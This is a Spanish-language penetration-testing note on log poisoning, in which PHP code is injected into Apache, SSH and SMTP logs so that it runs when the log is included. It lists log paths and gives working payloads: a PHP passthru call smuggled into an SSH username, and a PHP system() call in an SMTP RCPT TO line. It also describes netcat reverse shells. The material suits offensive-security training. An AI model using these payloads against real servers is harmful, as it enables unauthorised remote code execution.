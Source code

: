 # Log Poisoning (Apache, SSH y SMPT)

## Links:

[**Apache Logs**](log-poisoning-apache-ssh-y-smpt.md#apache-logs)

[**SSH Logs**](log-poisoning-apache-ssh-y-smpt.md#ssh-logs)

[**SMPT Logs**](log-poisoning-apache-ssh-y-smpt.md#smtp-logs)



## Apache Logs&#x20;

Este ataque consiste en que si el usuario www-data tiene capacidad de lectura del archivo de **logs de apache**, poder modificar el contenido de este a través de una **cabecera HTTP** para que el navegador al acceder a este recurso ejecute código PHP arbitrario.

### Locations

RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access\_log

FreeBSD Apache access log file location – /var/log/httpd-access.log

Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log

### Explotación

Si se cuenta con capacidad de lectura del archivo de logs, se puede modificar la cabezar HTTP **User-Agent** con una línea de código php para que al abrirse el archivo de logs el navegador interprete el código php que hayamos inyectado, bien sea a través de la url o un comando directamente.

En este caso haremos que php ejecute como comando de sistema todo la data que viaje por el método GET:

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Ahora cuando accedamos al fichero de logs podremos ejecutar comandos, en este caso que nos establezca una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

Máquina atacante:

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>



## SSH Logs

Este ataque consta de si el **servicio SSH está abierto** y el usuario www-data tiene capacidad de lectura del fichero de **logs de ssh**, es posible modificar este fichero para que el navegador al abrirlo ejecute código PHP.

### Location

/var/log/auth.log

Lo que tenemos que hacer ahora es loguearnos como el usuario, debido a que tiene muchos símbolos que pueden generar conflicto en la bash, lo vamos a encodear en base64, usando una función de php para que lo decodee una vez lo interprete el navegador y posteriormente lo ejecute:

{% code overflow="wrap" %}
```bash
ssh "<?php passthru(base64_decode(<Command in base64>)); ?>"@<TARGET-IP>
# JF9HRVRbJ3B3bidd == $_GET['pwn']
ssh "<?php passthru(base64_decode('JF9HRVRbJ3B3bidd')); ?>"@192.168.182.129
```
{% endcode %}

_passthru:  Execute an external program and display raw output_

Ahora cuando accedamos al fichero auth.log podremos pasarle un parámetro con el cual vamos a ejecutar comandos, en este caso una reverse shell a través de netcat:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Shell obtenida:

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>



## SMTP Logs

Este ataque consiste en que si hay un puerto **SMPT abierto**, pudiendo conectarnos a este para mandar un mail Y el usuario www-data tiene capacidad de lectura del archivo de **logs de smpt** se pueda ejecutar código PHP arbitrario a través de enviar un mail con una línea de código PHP en el remitente/receptor.

### Location

/var/log/mail.log

### Explotación

Lo primero será enviar un mail y en el campo del remitente/receptor poner el código php a ejecutar:

{% code overflow="wrap" %}
```bash
telnet <TARGET-IP> 25

MAIL FROM:evil-hacker   
250 2.1.0 Ok
RCPT TO:<?php system($_GET['pwn']); ?>
501 5.1.3 Bad recipient address syntax # Esto se ignora debido a que el servidor espera un ID y no un código php
```
{% endcode %}

